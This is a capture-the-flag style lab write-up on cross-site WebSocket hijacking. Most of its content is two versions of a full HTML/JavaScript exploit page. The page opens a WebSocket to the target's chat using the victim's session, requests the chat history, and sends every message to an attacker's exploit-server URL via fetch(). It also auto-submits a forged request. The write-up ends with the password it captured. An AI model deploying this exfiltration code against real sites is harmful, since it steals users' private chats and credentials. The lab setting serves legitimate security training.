 # [WebSockets] Lab: Cross-site WebSocket hijacking (1)

---

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled.png)

lets create some chat history then request it 

we need to find away to see what is getting the chat history.

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled%201.png)

now I generated a new CSRF payload: 

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled%202.png)

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled%203.png)

creates new websocket 

my code: 

```jsx
<!DOCTYPE html>
<html>
<head>
    <title>WebSocket and CSRF PoC</title>
</head>
<body>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <form action="https://0afa002f047dfe4d812898ee000d00d7.web-security-academy.net/chat" method="get">
        <input type="submit" value="Submit request" />
    </form>

    <script>

		console.log = function(message) {
			// Convert the message to a query string
			var queryParams = new URLSearchParams({log: message}).toString();

			// Your endpoint where the log messages will be sent
			var endpoint = "https://exploit-0ae900b40446fed381b8971101800098.exploit-server.net/log";

			// Send the GET request
			fetch(`${endpoint}?${queryParams}`)
				.then(response => response.text()) // Assuming the response is text
				
				.catch(error => {
					fetch(`${endpoint}?error=${error}`)
					// Note: Since we've overridden console.log, avoid using it here to prevent infinite loops
				});
		};

		// Example usage of the overridden console.log
		console.log("This is a test log message.");

        // Ensure the form is submitted automatically when the page loads
		window.onload = function() {
			setTimeout(function() {
			history.pushState('', '', '/');
			document.forms[0].submit();
			}, 10000); // Delay of 10 seconds
		};

				// WebSocket communication
				// Initialize an array to store received messages
		var receivedMessages = [];

		// WebSocket communication
		// Establish the WebSocket connection
		var ws = new WebSocket('wss://0afa002f047dfe4d812898ee000d00d7.web-security-academy.net/chat');

		ws.onopen = function() {
			console.log("Connection opened");
			ws.send("READY"); // Send initial message to start communication

			// Close the WebSocket connection after 1 minute
			setTimeout(function() {
				ws.close();
				console.log("Connection closed after 1 minute");
			}, 60000); // 60000 milliseconds = 1 minute
		};

		ws.onmessage = function(event) {
			console.log("Received message: " + event.data);

			// Convert the received message to a query string
			var queryParams = new URLSearchParams({message: event.data}).toString();

			// Send the query string to your URL
			fetch(`https://exploit-0ae900b40446fed381b8971101800098.exploit-server.net/log?${queryParams}`)
				.then(response => response.json())
				.then(data => console.log("Data sent successfully:", data))
				.catch(error => console.error('Error:', error));
		};

		ws.onclose = function() {
			console.log("WebSocket connection closed");
		};

		ws.onerror = function(error) {
			console.error("WebSocket Error", error);
		};

	

    </script>
</body>
</html>
```

I didn't like the idea of having a timeout for ten seconds so I decided to change it so that way I can actually just close the websocket after it hasn’t received any messages for more then 5 seconds. 

 

```jsx
<!DOCTYPE html>
<html>
<head>
    <title>WebSocket and CSRF PoC</title>
</head>
<body>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <form action="https://0afa002f047dfe4d812898ee000d00d7.web-security-academy.net/chat" method="get">
        <input type="submit" value="Submit request" />
    </form>

    <script>

		console.log = function(message) {
			// Convert the message to a query string
			var queryParams = new URLSearchParams({log: message}).toString();

			// Your endpoint where the log messages will be sent
			var endpoint = "https://exploit-0ae900b40446fed381b8971101800098.exploit-server.net/log";

			// Send the GET request
			fetch(`${endpoint}?${queryParams}`)
				.then(response => response.text()) // Assuming the response is text
				
				.catch(error => {
					fetch(`${endpoint}?error=${error}`)
					// Note: Since we've overridden console.log, avoid using it here to prevent infinite loops
				});
		};

		// Example usage of the overridden console.log
		console.log("This is a test log message.");

        // Ensure the form is submitted automatically when the page loads
		window.onload = function() {
			setTimeout(function() {
			history.pushState('', '', '/');
			document.forms[0].submit();
			}, 10000); // Delay of 10 seconds
		};

				// WebSocket communication
				// Initialize an array to store received messages
		var receivedMessages = [];

		// WebSocket communication
		// Establish the WebSocket connection
		var ws = new WebSocket('wss://0afa002f047dfe4d812898ee000d00d7.web-security-academy.net/chat');

				// WebSocket communication
		var ws = new WebSocket('wss://0afa002f047dfe4d812898ee000d00d7.web-security-academy.net/chat');
		var messageTimeout;

		ws.onopen = function() {
			console.log("Connection opened");
			ws.send("READY"); // Send initial message to start communication
		};

		ws.onmessage = function(event) {
			console.log("Received message: " + event.data);

			// Reset the timeout every time a message is received
			clearTimeout(messageTimeout);
			messageTimeout = setTimeout(function() {
				ws.close();
				console.log("Connection closed due to inactivity");
			}, 5000); // 5000 milliseconds = 5 seconds

			// Convert the received message to a query string and send it
			var queryParams = new URLSearchParams({message: event.data}).toString();
			fetch(`https://exploit-0ae900b40446fed381b8971101800098.exploit-server.net/log?${queryParams}`)
				.then(response => response.json())
				.then(data => console.log("Data sent successfully:", data))
				.catch(error => console.error('Error:', error));
		};

		ws.onclose = function() {
			console.log("WebSocket connection closed");
			clearTimeout(messageTimeout); // Clear the timeout when the connection is closed
		};

		ws.onerror = function(error) {
			console.error("WebSocket Error", error);
			clearTimeout(messageTimeout); // Clear the timeout on error
		};

	

    </script>
</body>
</html>
```

now lets store and deliver exploit to victim with our exploit server: 

**RESULTS:** 

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled%204.png)

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled%205.png)

`password: p7pdq8pqyo3j2bilw14t`

![Untitled](%5BWebSockets%5D%20Lab%20Cross-site%20WebSocket%20hijacking%20(1%2017cc6f69f62e4e0e8f5439e1c87f3fbd/Untitled%206.png)